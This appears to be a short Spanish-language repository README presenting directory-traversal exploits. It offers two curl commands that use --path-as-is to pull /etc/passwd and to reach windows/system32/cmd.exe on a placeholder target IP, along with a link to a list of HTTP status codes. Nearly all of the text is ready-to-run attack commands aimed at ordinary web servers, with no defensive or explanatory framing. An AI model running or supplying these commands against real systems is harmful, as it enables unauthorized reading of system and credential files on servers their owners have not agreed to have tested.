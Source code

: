 # directoriotrasversal
#
# Exploits para extraer por http la password en la carperta Linux /etc/passwd, en paginas vulnerables a directorio traversal.
#

curl --path-as-is -k -v http://ip:80/../../../../../etc/passwd

curl --path-as-is -k -v http://ip:80/../../../../../../windows/system32/cmd.exe

www.hackingyseguridad.com

Codigos de respuesta HTTP https://www.w3.org/Protocols/rfc2616/rfc2616-sec10.html
